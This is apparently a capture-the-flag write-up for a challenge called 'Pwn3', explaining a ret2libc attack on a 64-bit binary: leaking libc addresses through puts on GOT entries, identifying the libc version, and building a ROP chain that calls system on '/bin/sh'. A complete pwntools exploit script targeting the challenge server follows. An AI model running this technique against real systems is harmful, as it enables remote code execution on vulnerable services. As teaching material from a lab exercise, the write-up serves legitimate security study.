 ## Pwn3

Start by running checksec on the binary.

![checksec](./screenshots/checksec.png)

We have a 64 bit binary.  PIE is not enable and we don't have a stack canary.  View the decompilation in ghidra.

![ghidra](./screenshots/ghidra.png)

A pretty simple stack buffer overflow.  However this time we don't have any way to execute a shell within the binary.  We will need to utilize libc.

The first step is figuring out where libc is in memory.  We can leak the address by calling puts on the GOT entry.  Start by finding a "pop rdi" gadget.

![ropgadget](./screenshots/ropgadget.png)

0x401232 is what we need.  The buffer overflow will look something like this.

```python
payload = b""
payload += b"A" * 0x28
payload += p64(0x401232)  # pop rdi; ret;
payload += p64(binary.got['puts'])
payload += p64(binary.plt['puts'])
payload += p64(binary.symbols['main'])
```

This ROP chain will let us call puts on the GOT entry of puts.  Calling main address again will let us trigger our exploit multiple times.

Now we need to find out what libc version we are working with.  To do this we will print out multiple memory addresses of libc functions and use https://libc.rip to figure out the version.

```python
p.readuntil("Would you like a flag?\n")

payload = b""
payload += b"A" * 0x28

payload += p64(rdi_gadget)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main_addr)

p.sendline(payload)

puts_addr = p.readuntil("Would you like a flag?\n")
puts_addr = puts_addr.split(b"\n")[1]
puts_addr = u64(puts_addr + b"\x00" * (8 - len(puts_addr)) )
print(f"puts address: {hex(puts_addr)}")

payload = b""
payload += b"A" * 0x28

payload += p64(rdi_gadget)
payload += p64(fgets_got)
payload += p64(puts_plt)
payload += p64(main_addr)

p.sendline(payload)

fgets_addr = p.readuntil("Would you like a flag?\n")
fgets_addr = fgets_addr.split(b"\n")[1]
fgets_addr = u64(fgets_addr + b"\x00" * (8 - len(fgets_addr)) )
print(f"fgets address: {hex(fgets_addr)}")

payload = b""
payload += b"A" * 0x28

payload += p64(rdi_gadget)
payload += p64(setvbuf_got)
payload += p64(puts_plt)
payload += p64(main_addr)

p.sendline(payload)

setvbuf_addr = p.readuntil("Would you like a flag?\n")
setvbuf_addr = setvbuf_addr.split(b"\n")[1]
setvbuf_addr = u64(setvbuf_addr + b"\x00" * (8 - len(setvbuf_addr)) )
print(f"setvbuf address: {hex(setvbuf_addr)}")
```

![libc](./screenshots/libc.png)

We had an issue getting the address for fgets but we should have enough.

![libcrip](./screenshots/libcrip.png)

We have 4 results.  After some guessing and checking I figured out they were using libc6_2.35-0ubuntu3_amd64.  We can download it and use it in our pwn script.

Now we need a buffer overflow that will execute a shell.  I decided to call system on the "/bin/sh" string in the libc rodata section.  I also needed one more ret gadget to make sure the stack is 16 byte aligned before calling system.  With that we should have everything we need to finish our exploit.

#### exploit.py
```python
from pwn import *

binary = context.binary = ELF("./pwn3")
libc = ELF("./libc6_2.35-0ubuntu3_amd64.so")

# puts GOT = 0x404018
puts_got = binary.got['puts']
# fgets GOT = 0x404020
fgets_got = binary.got['fgets']
# setvbuf GOT = 0x404028
setvbuf_got = binary.got['setvbuf']
# puts PLT = 0x401060
puts_plt = binary.plt['puts']
# puts in libc = 0x184ed0
puts_libc = libc.symbols['puts']
# main address = 0x4011db
main_addr  = binary.symbols['main']
# system address = 0x54ae0
system_off = libc.symbols['system']
# "/bin/sh" address = 0x1d8698
binsh_off  = 0x1d8698

rdi_gadget = 0x401232
ret_gadget = 0x401233

if args.REMOTE:
    p = remote('challs.n00bzunit3d.xyz', 42450)
elif args.GDB:
    p = gdb.debug(binary.path, env={"LD_PRELOAD":libc.path})
else:
    p = process(binary.path, env={"LD_PRELOAD":libc.path})

p.readuntil("Would you like a flag?\n")

payload = b""
payload += b"A" * 0x28

payload += p64(rdi_gadget)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main_addr)

p.sendline(payload)

puts_addr = p.readuntil("Would you like a flag?\n")
puts_addr = puts_addr.split(b"\n")[1]
puts_addr = u64(puts_addr + b"\x00" * (8 - len(puts_addr)) )
print(f"puts address: {hex(puts_addr)}")

payload = b""
payload += b"A" * 0x28

payload += p64(rdi_gadget)
payload += p64(fgets_got)
payload += p64(puts_plt)
payload += p64(main_addr)

p.sendline(payload)

fgets_addr = p.readuntil("Would you like a flag?\n")
fgets_addr = fgets_addr.split(b"\n")[1]
fgets_addr = u64(fgets_addr + b"\x00" * (8 - len(fgets_addr)) )
print(f"fgets address: {hex(fgets_addr)}")

payload = b""
payload += b"A" * 0x28

payload += p64(rdi_gadget)
payload += p64(setvbuf_got)
payload += p64(puts_plt)
payload += p64(main_addr)

p.sendline(payload)

setvbuf_addr = p.readuntil("Would you like a flag?\n")
setvbuf_addr = setvbuf_addr.split(b"\n")[1]
setvbuf_addr = u64(setvbuf_addr + b"\x00" * (8 - len(setvbuf_addr)) )
print(f"setvbuf address: {hex(setvbuf_addr)}")

libc_base = puts_addr - puts_libc
system_addr   = libc_base + system_off
binsh_addr    = libc_base + binsh_off

payload = b""
payload += b"A" * 0x28
payload += p64(rdi_gadget)
payload += p64(binsh_addr)
payload += p64(ret_gadget)
payload += p64(system_addr)

p.sendline(payload)

p.interactive()
```

![exploit](./screenshots/exploit.png)

Success!